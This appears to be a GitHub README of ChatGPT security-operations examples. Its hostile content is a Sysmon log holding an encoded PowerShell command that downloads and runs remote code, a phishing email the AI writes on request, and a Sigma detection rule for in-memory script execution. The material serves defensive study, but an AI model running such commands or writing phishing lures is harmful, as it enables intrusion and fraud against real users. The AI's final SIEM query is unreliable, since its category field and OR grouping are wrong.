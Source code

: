 # *-chatgpt-ai-examples

***1. Suspicious Event Unpacking and Explanation***

`OpenAI prompt: please analyze the suspicious event below and explain what's going on.`

<14>Mar 10 07:21:45 mail1.ionxsecure.com MSWinEventLog  1   Microsoft-Windows-Sysmon/Operational    60  Wed Mar 10 07:21:45 2021    1   Microsoft-Windows-Sysmon    SYSTEM  User    Information mail1.ionxsecure.com    Process Create (rule: ProcessCreate)        Process Create:  RuleName: technique_id=T1059.003,technique_name=Windows Command Shell  UtcTime: 2021-03-10 13:21:45.504  ProcessGuid: {B2FBB6B8-C7E9-6048-1F25-000000001D00}  ProcessId: 12816  Image: C:\Windows\System32\cmd.exe  FileVersion: 10.0.14393.0 (rs1_release.160715-1616)  Description: Windows Command Processor  Product: Microsoft® Windows® Operating System  Company: Microsoft Corporation  OriginalFileName: Cmd.Exe  CommandLine: "cmd.exe" /c powershell -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcAAuAGUAcwB0AG8AbgBpAG4AZQAuAGMAbwBtAC8AcAA/AGUAJwApAA==  CurrentDirectory: c:\windows\system32\inetsrv\  User: NT AUTHORITY\SYSTEM  LogonGuid: {B2FBB6B8-1CF1-6043-E703-000000000000}  LogonId: 0x3E7  TerminalSessionId: 0  IntegrityLevel: System  Hashes: SHA1=99AE9C73E9BEE6F9C76D6F4093A9882DF06832CF,MD5=F4F684066175B77E0C3A000549D2922C,SHA256=935C1861DF1F4018D698E8B65ABFA02D7E9037D8F68CA3C2065B6CA165D44AD2,IMPHASH=3062ED732D4B25D1C64F084DAC97D37A  ParentProcessGuid: {B2FBB6B8-1DC2-6043-A300-000000001D00}  ParentProcessId: 10400  ParentImage: C:\Windows\System32\inetsrv\w3wp.exe  ParentCommandLine: c:\windows\system32\inetsrv\w3wp.exe -ap "MSExchangeOWAAppPool" -v "v4.0" -c "C:\Program Files\Microsoft\Exchange Server\V15\bin\GenericAppPoolConfigWithGCServerEnabledFalse.config" -a \\.\pipe\iisipm6ad061fd-1d32-4f0c-9631-cc382e98f5ef -h "C:\inetpub\temp\apppools\MSExchangeOWAAppPool\MSExchangeOWAAppPool.config" -w "" -m 0   19182

*OpenAI Response: This event is a process creation event generated by Sysmon. It appears that a Windows Command Shell (cmd.exe) was created with parameters to run a Powershell script. The process was created by user NT AUTHORITY\SYSTEM and it is likely that the system was compromised and the attacker is running a malicious script.*

`OpenAI prompt: analyze the parameters and the powershell script, decode the base64 argument, and explain what the script does.`

*OpenAI Response: The parameters of the Powershell script indicate that the script is attempting to bypass security restrictions and execute arbitrary code. The base64 argument is likely a payload containing malicious code. After decoding the base64 argument, it appears that the script is attempting to download a file from a remote source and then execute it. This type of attack is often used to download and execute malware on the system.*

***2. Creating phishing email***

`OpenAI prompt:` 
> Write an email that requires immediate action with a link https://www.fakebank.com/account-login?ref=12345&verify=true

`OpenAI Response: `
>Subject: Urgent - Action Required
>
>Dear [Recipient],
>
>We need your immediate action to ensure your account security.
>
>Please click on the link below to verify your account and ensure the security of your account at Fake Bank:
>
>https://www.fakebank.com/account-login?ref=12345&verify=true
>
>Please complete this verification process as soon as possible.
>
>Thank you for your prompt attention to this matter.
>
>Sincerely,
>[Your Name]

***3. Check if email is phishing***
`OpenAI prompt:` 
> Do you think this email looks like phishing? Answer in 1 word
> Subject: Urgent - Action Required
> 
> Dear [Recipient],
> 
> We need your immediate action to ensure your account security.
> 
> Please click on the link below to verify your account and ensure the security of your account at Fake Bank:
> 
> https://www.fakebank.com/account-login?ref=12345&verify=true
> 
> Please complete this verification process as soon as possible.
> 
> Thank you for your prompt attention to this matter.
> 
> Sincerely,
> [Your Name]

`OpenAI Response: `
> Yes
> 
***4. Building Spotter Query for IOCs***

`OpenAI prompt:` 
> This is an example of a spotter query:
> index=activity AND rg_functionality="Web Proxy" AND destinationaddress NOT NULL AND destinationaddress IN ("163.123.142.210","185.106.94.146",> "45.142.122.11","51.255.171.23")
> 
> Please build a spotter query for the following IOCs:
> - 192.185.129.139
> - 76.25.142.196

`OpenAI Response:` 
> index=activity AND rg_functionality="Web Proxy" AND destinationaddress NOT NULL AND destinationaddress IN ("192.185.129.139","76.25.142.196")

***5. Building Spotter Query from YAML***

`OpenAI prompt:` 
> This is an example of a spotter query:
> 
> rg_functionality = “Endpoint Management Systems” AND (deviceaction = “Process Create” OR deviceaction = “ProcessCreate” OR deviceaction = “Process Create (rule: ProcessCreate)” OR deviceaction = “ProcessRollup2” OR deviceaction = “SyntheticProcessRollUp2” OR deviceaction = “WmiCreateProcess” OR deviceaction = “Trace Executed Process” OR deviceaction = “Process” OR deviceaction = “Childproc” OR deviceaction = “Procstart” OR deviceaction = “Process Activity: Launched”) AND destinationprocessname = “cmd.exe” AND resourcecustomfield1 CONTAINS “-decode” AND resourcecustomfield1 CONTAINS “.jpg.lnk”
> 
> Please build a spotter query for the following yaml:
```
title: JXA In-memory Execution Via OSAScript
id: f1408a58-0e94-4165-b80a-da9f96cf6fc3
related:
    - id: 1bc2e6c5-0885-472b-bed6-be5ea8eace55
      type: derived
status: experimental
description: Detects possible malicious execution of JXA in-memory via OSAScript
references:
    - https://redcanary.com/blog/applescript/
author: Sohan G (D4rkCiph3r)
date: 2023/01/31
tags:
    - attack.t1059.002
    - attack.t1059.007
    - attack.execution
logsource:
    product: macos
    category: process_creation
detection:
    selection_main:
        CommandLine|contains|all:
            - 'osascript'
            - ' -e '
            - 'eval'
            - 'NSData.dataWithContentsOfURL'
    selection_js:
        - CommandLine|contains|all:
            - ' -l '
            - 'JavaScript'
        - CommandLine|contains: '.js'
    condition: all of selection_*
fields:
    - CommandLine
falsepositives:
    - Unknown
level: high
```


`OpenAI Response:`
>  rg_functionality = "Process Create" AND (deviceaction = "ProcessCreate" OR deviceaction = "ProcessCreate (rule: ProcessCreate)" OR deviceaction = "ProcessRollup2" OR deviceaction = "SyntheticProcessRollUp2" OR deviceaction = "WmiCreateProcess" OR deviceaction = "Trace Executed Process" OR deviceaction = "Process" OR deviceaction = "Childproc" OR deviceaction = "Procstart" OR deviceaction = "Process Activity: Launched") AND CommandLine CONTAINS "osascript" AND CommandLine CONTAINS " -e " AND CommandLine CONTAINS "eval" AND CommandLine CONTAINS "NSData.dataWithContentsOfURL" AND (CommandLine CONTAINS " -l " AND CommandLine CONTAINS "JavaScript") OR CommandLine CONTAINS ".js"

